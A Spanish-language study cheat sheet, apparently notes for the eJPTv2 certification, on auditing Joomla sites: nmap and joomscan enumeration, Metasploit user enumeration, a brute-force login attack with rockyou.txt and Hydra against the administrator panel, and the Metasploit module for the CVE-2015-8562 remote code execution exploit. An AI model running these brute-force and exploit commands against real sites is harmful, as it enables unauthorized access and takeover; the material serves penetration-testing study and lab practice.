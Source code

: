 ```yaml
---
layout: default
title: Preparación EJPTv2
---
```


## Joomla

Joomla es un CMS gratuito y de código abierto más populares a nivel mundial que puedes emplear para crear y administrar tu sitio web, blog e incluso aplicaciones para móviles.

Joomla te permite gestionar tu web fácilmente. Esto significa que puedes cambiar las imágenes y el texto de tu sitio web siempre que lo desees y no necesitas ninguna experiencia en codificación ni conocimientos de informática para ello.

---

## 🔍 Identificación de la versión de Joomla y sus componentes.

```bash
nmap -sV --script http-joomla-enum <url> # Detección de versión de Joomla y extensiones.
nmap -sV --script "http-joomla* and not http-joomla-brute" <url> # Escaneo de vulnerabilidades en Joomla.
nmap -sV --script http-joomla-users <url> # Detección de usuarios de Joomla.
nmap --script=http-joomla-enum --script-args http-joomla-enum.root=/ -p 80,443 <URL> # Escaneo completo para confirmar si se está utilizando Joomla.
nmap --script=http-vuln* -p 80,443 <url> # Detectar vulnerabilidades específicas en Joomla y sus extensiones.
```

 💡 Si el servicio web no carga correctamente o parece inaccesible, podría haber virtual hosting. En ese caso, debemos agregar el dominio correspondiente en nuestro /etc/hosts, por ejemplo: 10.0.0.10 joomla.htb.

## 🔍 Escaneo básico Joomla con Metasploit.

```bash
use auxiliary/scanner/http/joomla_version # Cargar módulo que vamos a utilizar.
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```

## 🔍 Enumerar Usuarios de Joomla

```bash
use auxiliary/scanner/http/joomla_users_enum # Cargar módulo que vamos a utilizar.
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```

## 🔑 Ataque de fuerza bruta con Metasploit:

```bash
set RHOSTS <url>
set USERNAME <nombre_usuario> # Nombre de usuario objetivo.
set PASS_FILE /usr/share/wordlists/rockyou.txt # Diccionario de contraseñas.
run
```

## 🛠️ Ejecución del exploit Joomla CVE-2015-8562 con Metasploit.

💡El exploit CVE-2015-8562 permite la ejecución remota de código en versiones vulnerables de Joomla. Y afecta a versiones de Joomla 1.5 a 3.4.5


```bash
use exploit/multi/http/joomla_http_header_rce # Seleccionamos el exploit.
set RHOSTS <url> # URL del objetivo.
set RPORT 80
set TARGETURI /
run # Iniciamos el ataque.
```

## 🛠️ Otras herramientas para auditar Joomla.

###  Joomscan

Joomscan es una herramienta especializada en la enumeración y auditoría de sitios web basados en Joomla.

```bash
joomscan --url <url_joomla> # Análisis básico del sitio Joomla.
joomscan --url <url_joomla> --enumerate-extensions # Enumerar extensiones instaladas.
joomscan --url <url_joomla> --enumerate-users # Enumerar usuarios.
```

💡 Una buena práctica al auditar Joomla es revisar el código fuente de la página web. Ahí podremos encontrar información sobre plantillas, extensiones utilizadas y posibles rutas sensibles.


Si encontramos posibles nombres de usuario durante la auditoría, debemos guardarlos en un archivo .txt para utilizarlos como wordlist de usuarios.

## 🔑 Fuerza bruta al panel Login de Joomla.

Fuerza bruta con Hydra

```bash
hydra -l <username> -P /usr/share/wordlists/rockyou.txt <url> http-post-form "/administrator/index.php:username=^USER^&passwd=^PASS^&option=com_login:F=Incorrect username or password."
```

